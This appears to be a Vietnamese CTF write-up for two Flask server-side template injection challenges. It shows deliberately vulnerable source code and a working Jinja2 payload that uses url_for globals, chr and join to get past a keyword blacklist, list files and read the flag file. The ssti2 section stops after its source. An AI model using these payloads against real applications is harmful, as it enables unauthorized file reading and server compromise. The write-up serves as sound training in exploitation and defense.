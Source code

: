# Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```

![](img1.png)

Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```

![](img2.png)

Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

`{% set chr=url_for.__globals__.__builtins__.chr %}`

Final payload:

```{% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

...
